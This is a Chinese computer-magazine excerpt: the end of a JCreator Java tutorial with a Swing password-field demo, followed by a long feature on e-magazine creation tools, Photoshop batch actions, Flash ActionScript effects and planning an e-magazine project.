在 JCreator 中，利用工程（Project）来管理相应的文件，一个工程由多个 Java 源文件和其他一些文件组成，JCreator 中工程文件的扩展名为 jcp。当我们创建一个工程时，JCreator 会自动给我们创建一个工作区，如图 27 所示。



# 超级软件教程

### (6) 在JCreator中编辑代码

其编辑界面包括：文件视图、代码视图、类视图、输出视图等。如果不能显示这些视图，单击“查看”菜单下的相关选项即可。可以看到，我们所设计的相关类已经显示在类视图中。如图28所示。



小知识：在JCreator中，文件视图用来显示工程中的所有文件，但只能有一个活动工程。代码视图用来编辑工程文件的源代码。如果输入相应的方法或变量，代码视图可提供该方法或变量的动态提示。类视图显示了当前显示在代码视图中Java源文件的类的层次和类中的方法，双击某一方法将直接在代码视图中定位到该方法的定义处。输出视图主要用来输出编译相关的信息。如果有错误信息出现，双击错误信息的第一行即可在源代码中定位该错误。

#### (7) 调试代码

按照上述类别，设计完毕，然后进行调试。

```
package security;

import javax.swing.*;
import java.awt.*;
import java.awt.event.*;

public class TestPassword{
    // 口令和文本输入域
    JPasswordField passwordField = new JPasswordField(12);
    JTextField textField = new JTextField(12);

    public static void main(String[] args){
        TestPassword pd = new TestPassword();
        pd.go();
    }

    void go(){
        // 设置口令回显字符为X
        passwordField.setEchoChar('X');
        // 创建各个标签、按钮
        final JFrame f = new JFrame("PasswordDemo");
        JLabel label1 = new JLabel(" 输入用户名: ");
        JLabel label2 = new JLabel(" 输入口令 ");
        JButton button1 = new JButton(" 确定 ");
        JButton button2 = new JButton(" 取消 ");

        // 鼠标单击“OK”按钮则执行这段代码
        button1.addActionListener(new ActionListener(){
            public void actionPerformed(ActionEvent e){
                // 获取输入的名字
                String name = textField.getText();
                // 获取输入的口令值
                char[] password = passwordField.getPassword();
                System.out.println(" 输入用户名: " + name);
                System.out.println(" 输入口令: " + new String(password));
            }
        });

        // 使用网络布局
        JPanel contentPane = new JPanel(new GridLayout(3,2));
        contentPane.add(label1);
        contentPane.add(textField);
        contentPane.add(label2);
        contentPane.add(passwordField);
        contentPane.add(button1);
        contentPane.add(button2);
        f.setContentPane(contentPane);

        // 关闭窗口
        f.addWindowListener(new WindowAdapter(){
            public void windowClosing(WindowEvent e){
                System.exit(0);
            }
        });
        f.pack();
        f.setVisible(true);
    }
}
```

确认代码正确后，单击“生成”菜单下的“执行项目”，测试界面如图29所示。



可以看到，在输出窗口中，显示了用户名和密码。由于这个例子十分具有代表性，因此用户可以多多体会，从中学习更多值得借鉴的内容。

需要注意的是，由于本教程定位于入门类，所以很多细节处理上偏重于简单、实用，并强调学习更多讲解Java学习方法，所以没有过多的讲解Java中的一些大型工具，如Jbuilder X等大型开发工具。完全掌握本教程内容后，就可以考虑开始使用一些大型开发工具练手了。经过一段时间的演练，相信你一定可以成为Java高手。

# 超级工具
——电子杂志制作完全教程

文 / 彭文波

说到看杂志，人们总会联想这样的情景：品一杯清茶，慢慢悠悠的翻阅，让心情陶醉在美丽的字里行间。如今，这份意境也可以在互联网上实现了。打开电脑后，人们也可以继续品着香茶，在鼠标轻轻滑动的美妙瞬间，享受网络杂志提供的声色阅读大餐。在形式上，这些电子杂志保留了纸质杂志的封面、目录、封底，甚至做出了中折痕以及翻页效果。更让人惊叹的是，它们融入了声音、图像、动画、视频等手段，令杂志的可视性、交互性达到前所未有的高度。相对于传统纸质杂志，这些杂志可谓“青出于蓝而胜于蓝”。登录国内著名的 Xplus 电子杂志平台：http://www.xplus.com.cn，这里汇集了目前比较流行的各种杂志，如《男人志》、《爱美丽》、《家居》、《momo堂》、《私秘》、《NewWeb》、《花花公主》、《情人》等。其中，《爱美丽》杂志封面如图1 所示。


欣赏之余，许多用户也在考虑制作独具特色的电子杂志。现在，各大电子杂志服务商开始闻风而动，努力迎合用户需求，各类专门针对电子杂志制作的工具软件纷纷上市。古人云：“工欲善其事，必先利其器！”那么，面对五花八门的电子读物制作工具，到底该选择哪一款软件呢？本专题通过介绍优秀的电子杂志软件，以及专业工具和实用工具的完美配合，给用户送上一份丰富的“电子杂志制作大餐”。

## 入门工具篇：功能强大的电子杂志制作软件

下面，首先介绍几款优秀的制作软件，包括：Zinemaker、Pocomaker、Zcom DIY杂志制作大师、iebook、XPLUS杂志制作工具、VIKA等。

### 一、ZineMaker 2006

软件推荐指数：☆☆☆☆☆
软件及模版下载地址：http://www.zinemaker.com/

### 1. 软件特点

软件安装过程十分简单，其最大的特点是图形界面上手容易，能把SWF、图片、视音频等部件像搭积木样一样组合起来，有利于团队的分工合作，后期修改起来也十分方便。软件自带多套精美的FLASH模版、特效模版以及定制模版，全面支持最新的Macromedia Flash 8文件格式，动态效果十分丰富。而且，软件采用了128位高强度加密技术，能严格保护内页Flash文件不被恶意破解，如图2所示。



#### 2. 制作方法

大致步骤如下：

- （1）新建杂志，选择封面模版，然后添加页面模版，当然也可以是图片或FLASH；
- （2）更改模版页面元件；
- （3）生成预览并保存杂志。需要注意的是，Zinmaker制作杂志过程中会生成2个文件，即.mpf文件和.exe文件。其中，.mpf文件中要添加的所有内容都是通过绝对路径实现的，如果在制作过程中修改了素材位置，将会出现无法显示的问题，必须重新更改路径。在大型合作制作过程中，最好将Zinemaker统一安装在同一路径下，素材文件的路径也尽量统一。例如，可以把Zinemaker安装在C:\Program File下（默认），每一期的素材文件建立在某个盘下。杂志制作完成后，可以发布到网上，做成在线版本，还可以做成下载版本观看。

小技巧：使用ZineMaker可以制作出十分精美的杂志，使用以下技巧则可以制作出更加精美的杂志：

- ① 使用模版和特效达到事半功倍的效果

也制作了许多风格迥异的精美模板和特效，如http://www.zinemaker.com 网站提供的“妩媚与妖娆”、“西藏风情”、“野蛮女郎”、“浪漫的日子”、“迪斯尼模板”、“永恒的爱情”等风格的模版和特效。制作之前，用户可以通过http://www.zinemaker.com 网站的“模版”和“特效”等栏目免费下载。下载后，找到安装目录下的template 文件夹。在template 文件夹中找到对应的分类文件夹，把TPF 模板文件放进去。另外，也可以打开ZineMaker 2006 添加模板页面，可以看到一个新的选框，可以很方便地进行模板分类和模板添加。

### ②使用Flash制作个性化信息文件

在安装路径下的designing 文件夹里，提供了backinfo（制作人员信息）、button（按钮）、email（推荐EMAIL）等源文件，通过修改这些文件，可以加上制作者自己的信息。然后，通过Flash 导出swf文件，就可以加载到杂志中了。另外，在做FLASH 时，最好把帧速度设置为30帧／秒，这样，插入杂志后就会和电子杂志的帧速度一样了。

### 二、PocoMaker 0.99

软件推荐指数：☆☆☆☆ 软件下载地址：http://maker.poco.cn/

#### 1.软件特点

PocoMaker 是广州数联软件技术有限公司继Poco 2005 后的又一旗舰级产品。它支持模板替换，可生成千姿百态的电子杂志，不需要任何辅助浏览工具，真正做到了纯洁、绿色、完美。新版的PocoMaker 共有四个属性面板，分别对应图片属性、文字属性、FLASH 属性以及声音属性。软件提供了对图层的多选支持，撤销操作和恢复操作，添加多页功能，增加目录模板和循环播放功能，和Photoshop 有点类似。此外，用户在运行相册时，点击相册顶端的“自动”播放的同时勾选“循环”复选框，还可以实现循环播放相册功能，如图3所示。



#### 2.制作方法

制作过程十分简单，软件提供了三步制作的选项卡，分别是：“第一步：相册编辑”、“第二步：生成EXE文件”、“第三步：相册上传”。在这里，相册和电子杂志比较类似，形式基本一样。其中，“第一步：相册编辑”十分关键。启动页上的“批量导入”，选择需要导入的图片，导入后将按每页一张图片显示。点击右边属性面板的声音属性，按“添加”按钮可以添加该页的背景音乐。选择左边工具条的“特效视图”，可以通过鼠标移动预览特效的效果。完成杂志编辑以及生成EXE 文件后，用户可以通过点击主界面上“第三步：相册上传”或者点击工具栏的发布，将文件上传到魅客网站（http://maker.poco.cn）与他人一起分享。

##### 小技巧：

在使用PocoMaker 的过程中，可以灵活运用以下技巧：

##### ①巧妙更换模板

在PocoMaker 主菜单中选择“设置”菜单中的“更换模板”，弹出对话框可以选择不同的模板。PocoMaker 0.99 共提供三个模板，分别是标准模板、简历型模板和宽屏型模板。模板文件存放在PocoMaker 安装目录下的MakerTemplate 文件夹。如果想重新更换为标准模板，可以选择“设置”菜单中的“切换到标准模板”子菜单。通过“模板信息”子菜单可以了解到当前使用模板的详细信息。

### ②对Flash动画的巧妙支持

在PocoMaker 0.99 中，提供了对Flash 的支持功能。点击工具条的“添加FLASH”，或者在工作区中按鼠标右键，在弹出的菜单中添加FLASH。添加FLASH 后，属性面板将自动切换到FLASH 属性面板。在FLASH 属性中做的修改除了“显示遮罩”外都可以在界面上马上显示出来。“显示遮罩”是指只显示FLASH 的原始大小，不将其外边框出现的东西显示出来。可以通过顶部工具栏的“预览”功能来观察显示FLASH 的修改情况。

## 三、ZCOM杂志制作大师V1.2

软件推荐指数：☆☆☆ 软件下载地址：http://diy.zcom.com 或 http://www.skycn.com/soft/24879.html

#### 1.软件特点

Zcom 杂志制作大师与客户端浏览软件是分开的，并为用户提供了一个专门的网站页面http://diy.zcom.com。软件提供了快速体验向导，用户根据向导提示信息即可制作杂志，使用更简单，操作更方便，还可以添加目录页，通过向导面板上的快捷按钮对杂志资源进行重新定义。

#### 2.制作方法

- (1) 选择快速体验向导面板上的“快速体验”按钮；
- (2) 选择快速体验向导面板上的“创建封面”按钮，插入一张JPG图片作为封面，建议图片比例为4:3。进入下一步。
- (3) 选择快速体验向导面板上的“创建内页”按钮，插入一张或多张 JPG 图片或 SWF 影片作为内页，进入下一步。选择快速体验向导面板上的“创建封底”按钮，插入一张 JPG 图片作为封底，进入下一步。选“删除”按钮可以删除当前选中图片，如图 4 所示。


- （4）通过精心编排，现在已经拥有一本电子杂志了。对于已制作完成的杂志，则可以点“生成”按钮，生成*.exe 文件。如果想将杂志与大家分享，可以选择“上传”按钮，在弹出的窗口中输入杂志及作者的相关信息即可。

> 小技巧：相对其他软件而言，Zcom 使用方便快捷，但缺乏一些比较个性化的功能，比如图片不能批量导入和删除，加入背景音乐无法进行设置，支持的音乐格式比较单一等。

### 四、iebook 超级精灵

软件推荐指数：☆☆
软件下载地址：http://www.iebook.cn

### 1. 软件特点

iebook 是由飞天传媒机构开发的一款极简单的电子杂志制作软件，对那些希望快速掌握制作方法的朋友来说，也是一个不错的软件。软件界面满漂亮，看上去集成了很多功能，虽然“iebook 超级精灵”细分了几个类别，有制作杂志、相册、简历、贺卡，但经试用，实际上都是一回事，有点多此一举的味道。生成杂志时能选择杂志窗口的大小、是否自动翻页等。比较遗憾的是，软件无法一次导入多幅图片，不会自动增页，插入后的图片不能进行页面缩放，也不能调整顺序，做相册时很不方便，如图 5 所示。



#### 2. 制作方法

- （1）打开“超级精灵 iebook”，单击“新建”，在动画窗口中选择“电子杂志”按钮，新建一个杂志文件；
- （2）按照各按钮如“封面”、“封底”、“背景”、“动画”等提示进行设置，根据向导即可轻松完成杂志的制作。

### 五、其他电子杂志制作软件

在激烈的电子杂志制作软件竞争中，还出现了不少其他的制作工具。简单介绍如下：

#### 1. Xplus 的 MagA 杂志制作器

软件下载地址：http://www.xplus.com.cn。Xplus 提供了杂志制作功能，点击“杂志制作”即可安装杂志编辑器。软件提供了“大师版”和“精灵版”两种编辑方式，在“大师版”中，只要选择背景音乐、底纹和各种排版方式，再将图片导入到相册中，就可以预览发布了。在“精灵版”中，还可以制作更加个性化、独具专业特色的互动杂志。唯一不太方便的是制作软件和客户端软件捆绑在一起，操作起来有些不太方便。

#### 2. 诺杰数码精灵

软件下载地址为：http://www.onlinedown.net/soft/44906.htm 或 http://www.nuojie.cn。数码精灵是一款专门制作电子杂志的软件，有即点即得的演示效果。整个操作界面大致分：菜单栏、工作显示区、后台编辑区，增强功能区。在“附件”中，可将与导入 FLASH 文件相关的附件导入进去。不过，免费版本的软件在功能上有不少限制，在此不作详细介绍。

通过上面的分析，我们可以看到目前电子杂志制作的火热场面。对于用户来说，合适的才是最好的。总体来看，ZineMaker 2006 逐步接近专业制作水平，是目前功能比较强大的电子杂志制作软件，如果会 Flash 编程，那么制作出类似《瑞丽》、《男人志》等专业的电子杂志将很容易。PocoMaker 魅客定位清晰，功能实用，编辑思路也非常清晰，也是当前优秀的制作软件，但不太适合制作比较专业的电子杂志，对初、中级别的电子杂志制作者来说，已经绰绰有余。ZCOM 杂志制作大师比较适合 DIY 新手，对于希望展示自己图片作品的用户来说，是一个不错的选择。iebook 超级精灵以及其他的制作软件则可作为上述工具的配合和补充，满足各个用户群体的需求。

## 进阶工具篇：实用工具和专业工具的完美配合

在制作电子杂志的过程中，用户可能会经常碰到以下问题：如何制作一个更加个性化的图标？如何制作一个精美的 logo？如果让杂志特效更加丰富？其实，这些个性化的需求可以通过其他实用小巧的软件来实现。结合诸多电子杂志制作者的体会，现将收集整理的一些实用软件介绍如下。

### 一、实用的电子杂志“零部件”制作工具

#### 1. Microangelo V6.0 图标制作软件

软件下载地址: http://www.microangelo.us

制作电子杂志时，经常需要设计个性化的图标，这样，杂志才能更有品位。Microangelo 是一个可编辑和管理光标的工具，可创建和编辑图标(.ico)、静态指针(.cur)、动画指针(.ani)以及图标库(.icl)等文件，并支持单色、16或者256色及8*8到64*64的图素尺寸。软件包含了4个整合的图标工具: Librarian用于识别和存取文件和图片中的图标；Studio用于编辑和制作图标、光标文件；Animator用于制作和编辑动画光标文件；Explorer用于浏览图标、光标和动画光标。

下面，以典型的电子杂志图标为例，制作步骤如下：

- (1) 打开 Microangelo Studio，在出现的界面可以看到许多正方形小框，用户可以根据尺寸选择合适的像素。在面板中，一个框代表一个单位的像素。窗口右边有实际预览效果，如图6所示。
- (2) 在 Photoshop 等软件里设计3个内容一样的图片，大小分别为48*48，32*32，16*16；
- (3) 在 Microangelo 的 Studio 软件中新建文件，可以根据自己的需要进行选择，在本例中选择“图标”。例如，新建48*48大小的图标，选择 XP 的色彩模式。另外，在新建面板中，还提供了多种工程模板样式供用户选择。
- (4) 在 Photoshop 等软件中，把以前做的48*48的大小的图片用选取工具选择好复制，然后复制到 Studio 软件中。使用类似的方法完成32*32的文件和16*16的文件制作，最后保存即可完成图标的制作。也可以混合多种模式合成。最后制作的电子杂志效果如图7所示。



图6

#### 2. AAA LOGO v1.21 完全绿色版

软件下载地址: http://www.skycn.com/soft/21331.html

这是一个非常方便的logo制作程序，尤其适合制作电子杂志中的各种尺寸的LOGO。通过简单而强大的方式，可以使做LOGO就像画画一样简单，几分钟内就可以用于网页或者打印出来。软件内置了60多个模版，也可以自己定制模版。另外，软件附带包含2000多个LOGO对象和剪贴画的图库，所有内置Logo对象都是基于矢量的，可以轻易地缩放和旋转；也可以对任意单独对象应用不同的样式，得到几乎无限的对象和效果组合。为了更好地加工汉字LOGO，使用这个软件时，可以把需要的汉字用位图格式导入或者把完成的LOGO设计继续用其他图像软件进行二次加工。



图7

定制模版。另外，软件附带包含2000多个LOGO对象和剪贴画的图库，所有内置Logo对象都是基于矢量的，可以轻易地缩放和旋转；也可以对任意单独对象应用不同的样式，得到几乎无限的对象和效果组合。为了更好地加工汉字LOGO，使用这个软件时，可以把需要的汉字用位图格式导入或者把完成的LOGO设计继续用其他图像软件进行二次加工。

#### 3. FontTwister 特效字制作软件

软件下载地址: http://www2.skycn.com/soft/20842.html

FontTwister 是个能最快、最简便地创建出令人眼花缭乱的文本效果的工具，利用它给电子杂志封面加特效图片十分方便。使用这个软件，可以制作给人印象深刻的质感文字，创造出不受限制的、令人惊奇的文本变化效果。制作过程相当简单方便，可用鼠标拖曳调整角度和360度翻转，另外也有“所视即所得”功能，让用户马上看到自己所制作的质感文字样品，包括：光彩、斜角、浮雕、透明、阴影、模糊及其它更多特效，每种特效又有各种各样的颜色功能。

#### 4. Flash 特效制作软件 SWiSHmax

软件下载地址: http://www.swishzone.com/

SWiSHmax 是 Swish 的最新版本，最新版本已经可以完全支持FLASH MX语法。SWiSH是一个快速、简单且经济的方案。用户可以创造形状、文字、按钮以及移动路径；也可以选择内建的超过150种诸如爆炸、漩涡、3D旋转以及波浪等动画效果；还可以用新增动作到物件，来建立自己的效果或制作一个互动式电影。此外，SWiSH会输出与 Macromedia Flash 相同的SWF格式，也可以产生HTML代码，粘贴到电子杂志的页面中。

#### 5. “硕思闪客精灵” Sothink SWF Decompiler MX 3.5

下载地址:http://www.onlinedown.net/soft/27522.htm

“硕思闪客精灵”是一款能解析SWF并能将SWF文件还原为FLA文件的专业工具。它可以浏览、播放、分析Flash动画(包括.swf文件和.exe文件)，完全解读动作脚本，并能够将每个SWF元素以不同的格式导出(如动作脚本、声音、图片、矢量图、动画帧、字体、文字、按钮和动画片段)。另外，还能够分析Flash动画中的视频文件并导出为*.flv格式的文件，完全兼容Flash 8，包括Flash组件、切片的转换和文字反锯齿参数等。在“硕思闪客精灵”中，还提供了一个辅助工具，即“闪客名捕”，它是一个SWF捕捉工具。当用户在IE浏览器或其他浏览器中浏览网页的同时，可以使用它来捕捉Flash动画并保存到本机。

## 二、Photoshop技术在电子杂志设计中的应用

下面是一则典型的电子杂志公司招聘广告：

- 任职资格：
  1、熟悉Photoshop、Flash、Firework等图形图像处理软件；
  2、熟悉DreamWeaver，熟悉HTML/CSS，Web标准；
  3、页面风格具有设计感，有丰富的创意，能够制作出有视觉冲击力的网页；

从这则招聘广告中，可以看到，制作电子杂志时需要多方面专业技术的配合，尤其是Photoshop、Flash、Firework等图形图像软件的配合。下面，首先以Photoshop为例讲解其中的一个重要技巧。

小技巧：在电子杂志制作过程中，经常需要使用同样大小的图片。尽管Zinemaker等设计软件提供了不少页面模版，使用时可以更换背景等图片，不过图片的大小通常都需要在Photoshop里修改尺寸。如果只是一个背景的话，那么在Photoshop里处理下就可以了，可是对于一些图片展示的模版，采用一张张修改的方法就显得枯燥费时。这时，我们可以利用Photoshop的“动作”工具，把动作录制下来，再将动作应用到其他图，做相同的处理。

比如说，我们要把10张图改成300*400像素大小的图，步骤如下：

#### 1.新建动作

打开一个系列图库中的一张图，单击“窗口”菜单下的“动作”选项，打开“动作面板”。在“动作”面板新建“序列1”，并在其下新建“动作1”。红色圆点被按下说明目前正处于录制动作阶段。这样，好似一台录象机监视我们的动作，然后就可以进行所需的处理，如图8所示。



#### 2.设置动作并录制

因为不能保证图的比例正好可以缩放至300*400，所以先将图像大小进行修改。完成后，“动作”面板中会增加一个动作步骤。新建一个300*400的图像，并将前一张图的图层复制到新建图像上，移动适当位置。可以发现“动作面板”已经将刚才所有的动作都记录在内。这时我们可以按下“停止按钮”，就是那个方的按钮，来停止录制。然后么这张图就可以保存关闭了。

#### 3.对其他图片进行批处理操作

接下来就一张张的把其余的图打开，然后选中“动作1” 按一下“动作面板”的“播放”按钮，最后的工作就是保存文件了，如图9所示。



小技巧：需要注意的是，如果某一个步骤不需要，可以删除也可以把前面的勾去掉，这样这步将不被执行。另外，做完一张图片保存后，最好将其关闭。因为动作里涉及到“上一步文档”和“下一步文档”，如果把所有的图片都导入，可能程序会把文档搞错。

## 三、Flash技术在电子杂志设计中的应用

在电子杂志制作尤其是模版制作的过程中，需要使用Flash等专业动画软件以及相关编程技术，通过这些专业技术的使用，可以制作出更加绚丽多彩的电子杂志，下面讲解一个Photoshop与Flash合作制作模糊渐变动画的例子。在Flash中也可以利用其脚本功能来实现动态模糊的效果，效果还是不错的。

步骤如下：

### 第一步：用Photoshop制作两张图。

一张比较清楚，一张比较模糊。制作模糊效果时，可以使用Photoshop的高斯模糊滤镜。

### 第二步：把两张图片导入到FLASH中，分别建立三个图层，顺序依次为：清楚的图片（最下面）、模糊的图片（在中间）、最上层为AS。最重要一点：选中模糊的图片。按下F8将其转换为movieclip，同时在属性面板上将其实例名命名为blurred。

分别建立三个图层，顺序依次为：清楚的图片（最下面）、模糊的图片（在中间）、最上层为AS。最重要一点：选中模糊的图片。按下F8将其转换为movieclip，同时在属性面板上将其实例名命名为blurred。

### 第三步：在AS层上加入如下代码，同时按Ctrl + Enter测试。参考代码如下：

```
actionscript
var myColor:Color = new Color(blurred);
var white:Object = {ra:100, rb:255, ga:100, gb:255, ba:100, bb:255, aa:100, ab:255};
myColor.setTransform(white);
setc();
function setc(){
onEnterFrame = function(){
white.rb-=5;
white.gb-=5;
white.bb-=5;
white.ab-=5;
myColor.setTransform(white);
}
}
```现在，通过Flash也可以完成整本电子杂志的制作，不过，这对设计人员也提出了很高的要求。其中，使用了大量的ActionScript脚本。编写ActionScript代码时，应使用“动作”面板或“脚本”窗口。“动作”面板和“脚本”窗口包含全功能代码编辑器（称为ActionScript编辑器），其中包括代码提示和着色、代码格式设置、语法加亮显示、语法检查、调试、行数、自动换行等功能。

##### 小技巧：

- 在Flash中，事件发生时会执行ActionScript代码。事件可以划分为以下几类：
① 鼠标和键盘事件，发生在用户通过鼠标或键盘与Flash应用程序交互时；
② 剪辑事件，发生在影片剪辑内；
③ 帧事件，发生在时间轴上的帧中。例如，当用户滑过一个按钮时，将发生Button.onRollOver或on(rollOver)事件；当用户单击某个按钮时，将发生Button.onRelease事件；如果按下键盘上的某个键，则发生on(keyPress)事件。
可在帧上编写代码或向实例附加脚本，以处理这些事件以及添加所需的所有交互操作。这些都是构成电子杂志动画设计的基本要素。

在利用Flash设计电子杂志的过程中，经常需要使用和页面有关的函数。下面，选择了一个完全利用Flash技术制作的电子杂志，设计界面如图10所示。
下面，选择其中比较常用的事件函数进行重点分析。


在事件函数中，可在组件参数面板中设置（event参数），也可在Action中通过如下格式来设置：

```
[翻页组件对象名称].[事件名称]=[事件调用函数或事件调用函数路径]
```

若直接指定事件调用函数，则该函数的格式需写为：
function 函数名 (事件参数1, 事件参数2, …)
若通过事件调用函数的路径来指定（组件参数面板中设置的事件即为这种情况），则该函数的格式需写为：
function 函数名 (sender, 事件参数1, 事件参数2, …)。其中sender参数接收到的值为产生该事件的组件句柄。
具体事件说明如下表所示：

| 事件名称 | 参数说明 | 功能说明 |
| --- | --- | --- |
| onCreatePage | pageMC：新创建的页面影片剪辑对象。该对象有一个初始化参数index，保存了该页面的页序号。<br>isRear：该页面是否为另一页面的背页。 | 当有新的页面被创建时调用，以便对新页面进行个性化设置。 |
| onRemovePage | pageMC：将被删除的页面影片剪辑对象。<br>isRear：该页面是否为另一页面的背页。 | 当有页面被删除时调用，以便对删除的页面进行附加操作。 |
| onAdjustPage | pageObj：页面描述对象。该对象包含以下成员参数：main（指向翻页组件本身）、index（当前页序号）、side（-1左页、1右页）、rearPage（是否为背页）、face（书页影片剪辑）、pageMask（书页蒙板影片剪辑）、shade（书中缝阴影影片剪辑）、shadow（书页影子影片剪辑）、position（页面位置描述结构体，参数含x,y坐标、aimX,aimY目标点坐标及trackMouse是否跟随鼠标）<br>range：页面形状描述对象。该对象包含以下成员参数：type（形状类型）、a（上沿宽度）、b（下沿宽度）、angle（页面转角）、angle2（中缝阴影转角）、height（侧沿长度）。该对象含义较晦涩，一般情况下不推荐调用。 | 当页面轮廓形状发生变化时调用，以便对页面内容进行相应调整。 |
| onResizePage | pageObj：页面描述对象。<br>width：新的页面宽度。<br>height：新的页面高度。 | 当页面大小变化时调用，以便对页面内容进行相应调整。 |
| onSetFlipArea | pageObj：页面描述对象。 | 当页面可翻动区域创建后调用，以便对可翻动区域做相应调整。 |
| onStartFlip | pageObj：页面描述对象。 | 当页面开始翻动时调用。 |
| onStopFlip | pageObj：页面描述对象。 | 当页面停止翻动时调用（非停止移动）。 |
| onFinishFlip | pageObj：页面描述对象。 | 当页面最终移动到目标静止页面状态时调用。 |
| onDragPage | pageObj：页面描述对象。<br>x：当前页面x坐标。<br>y：当前页面y坐标。<br>trackMouse：是否为跟随鼠标拖动。 | 当拖动页面时调用。 |
| onMovePage | pageObj：页面描述对象。<br>x：当前页面x坐标。<br>y：当前页面y坐标。 | 当页面移动时调用。 |

在上面的电子杂志中，控制“下一页 next”按钮的函数和代码窗口，如图11所示。



此外，通过电子杂志可以做出功能强大的互动内容，它可以了解受众的个性需求。电子杂志的用户管理后台可以针对用户做目标分析和阅读分析，并得到实时更新的信息反馈。而且，电子杂志的广告往往和内容结合得很紧密，甚至一般的消费者都不认为这是一种广告。而这一切也需要通过功能强大的相关脚本来实现。因此，了解这些实例和代码的基本规律后，我们就可以设计出更多具有个性化的电子杂志页面或者整本的电子杂志了。

### 四、专业电子杂志制作技术的整合

通过由浅入深的技术介绍，我们对电子杂志的制作技术有了一定认识。下面，我们来看看一些专业电子杂志公司对最新技术的应用。一般来说，电子杂志公司作为新兴的媒体，在制作上的投入都很大。比如文字编辑就有十几人，更有分别达到数十人的影音制作队伍、图片编辑队伍，还有若干专业的作曲家、音乐制作人、配音演员等，再加上技术研发——仅指电子杂志，而不包括网站——队伍，总人数200人以上也十分正常。下面以电子杂志《神农架》为例，对其中的一些高水准技术进行介绍，以满足用户的神秘感。

#### 1.三维虚拟技术整合

利用三维虚拟技术可以对旅游、房产、市政、汽车等行业进行身临其境的体验式展示。以《神农架》杂志为例，通过整合三维虚拟现实技术，把地球北纬30度附近神秘而奇特的金字塔、百慕大、神农架等地区生动自然地展现出来。用户可以用鼠标随意拖动地球进行旋转，点击相应神秘地区即可由远及近的“钻”入该地区，并在其中漫游，其效果不亚于好莱坞的三维动画大片。

#### 2.二维虚拟、鼠标追踪、动作缓冲技术的整合

《神农架》之“金丝猴王国”，通过二维虚拟、鼠标追踪、动作缓冲技术的整合，生动、直观地展现了一个独特“王国”的神奇世界。

#### 3.三维表现技术应用

《神农架》之“神农祭坛”，灵活地运用了影视领域的三维表现技术。配合音乐，非常出色地展现了祭拜神农宏大、神圣的场面。

#### 4.全景虚拟技术整合

全景虚拟是基于全景图像的虚拟现实技术。通过把相机环360度拍摄的一组或多组照片拼接成一个全景图像，实现全方位互动式观看的真实场景还原展示方式。《神农架》项目通过360度全景虚拟技术，真实地展示了梭罗神树的风采，使读者可以在树周随意转动观看，达到身临其境的效果。

#### 5.原创音乐、音效技术的应用

《神农架》项目生产中，原创了30首音乐，总时长为60分钟。极大地丰富了杂志的表现力。如：“文化聚融”中，民歌的二度创作，一开声就把读者带入一个神奇、神秘之地的文化氛围，整本杂志每一个页面都带给读者全新的、神奇的感受。在项目制作中，民歌、音效采集使用了电影创作中的数字采录设备。如：“高山湿地”中，一天的变化通过音效的运用巧妙地诠释了“大九湖”24小时的多彩变幻。

### 6.GIS技术整合

GIS（Geographic Information System）是用于采集、管理、检索、分析和表达地理空间数据的地理信息系统的简称。《神农架》项目通过GIS技术与Flash的无缝结合，在杂志中准确、翔实、直观地表现神农架景区的地理信息。除GIS基础的测距等功能外，《神农架》创新性地应用了实时天气预报功能、各信息图层间的换肤功能。

### 7.二维后期处理软件Illusion应用

《神农架》之“世界四大未解之谜”，应用了影视二维后期处理软件Illusion，通过Illusion处理的粒子效果，较好地营造了“未解之谜”的神秘气氛。

### 8.影视合成、动画特效软件After Effects应用

《神农架》之“开场动画”，应用了影视主流合成软件After Effects。AE是世界主流的影视合成软件，把它应用到多媒体杂志中，增强了杂志的表现力。

#### 9.协同工作技术

在大型软件开发、大型电影制作中，我们经常会用到协同制作技术，在大型电子杂志的开发中，也逐步开始使用协同工作技术。《神农架》项目生产中，三维生产岗位、影视后期合成岗位、音乐创作岗位、平面设计岗位、动画设计岗位、技术研发岗位……，各工种协同工作，完成了技术的创新与突破，对数字呈现与多媒体技术进行了很好的表现与创新。通过大项目的团队磨练，可以积累很多生产方法、生产流程控制的经验，会很快形成大项目生产的“常态生产”模式，迎接即将到来的规模化项目生产。

## 实战提高篇：《北印码头》系列电子杂志的编创制作

伴随着精准营销、创新营销等概念的风生水起，电子杂志这种新颖的营销形式已经成为2007年炙手可热的话题。从“开放.创新”的HP主题释放，到“体贴尊贵，感受升华为你心灵”的哈根达斯口号流行，乃至于“优雅永恒”的劳力士；这些世界著名的企业均推出了自己的电子杂志。同时，代表草根文化的各种电子杂志也层出不穷，新兴的电子杂志品牌也让我们叹为观止。下面，我们通过一个完整的实例《北印码头》（本期实例作品在首都高校电子杂志设计大赛中获二等奖），讲解电子杂志的策划和制作过程。

### 一、前期策划和整体策划：电子杂志的准备工作

#### 1. 要有一个优秀的团队

设计工作的开展必须依靠有效的结构才能实现，制作一份优秀的电子杂志也是如此。组建团队时，可以根据每个人的特点和能力，在整体上形成优势互补。当然，团队的概念并不是局限于设计工作范畴，也包括经营方面，例如，在电子杂志的设计过程中，如果能够争取到一定的广告资金或者赞助费，成员的积极性就能更高，更多优秀的策划和创意也就能够得到实施。总之，在设计工作开展的过程中，以团队的模式形成工作结构，能够促进专业协作水平不断提高，从而获得更多的回报，使杂志能够持续坚持下去。在小型的电子杂志设计团队中，通常包括：策划编辑、美术设计人员、Flash设计人员和程序员等。通过明确的分工，在技能上能形成互补，从而形成一个高效的设计团队。当然，也可以通过网络的形式，以论坛分工的模式形成一个网络团队。

#### 2. 单本电子杂志的策划

电子杂志的策划包括：杂志的定位、版式设计、内容选择、色彩风格、音乐选择等，还有选题、组稿、编辑、素材整理、技术实现等，都需要仔细考虑。值得注意的是，电子杂志正以极强的视觉冲击力和内容吸引力，为企业营销提供更好的工具选择。一个页面就是一个优秀的美术作品，因此必须通过整体的策划来表现所要介绍的内容。这样，电子杂志的视觉效果才会有层次感、空间感，从而吸引更多的读者。对于电子杂志设计者来说，在享受制作电子杂志乐趣的同时，也可以为将来的职业发展打下更好的基础。

小技巧：在电子杂志设计中，色彩是一个非常重要的元素。因为视觉上的表现包括了结构、色彩和透视，一个有结构、有穿透力的色彩搭配，就会产生更有空间感的透视效果，形成强有力的视觉冲击。另外，电子杂志的制作离不开动画声音视频和互动，通过整体配合，可以使背景色、音乐内容达到很好的协调。

#### 3. 杂志系列化的长期策划

一般分为初期、发展期、成熟期三个不同时期的考虑。

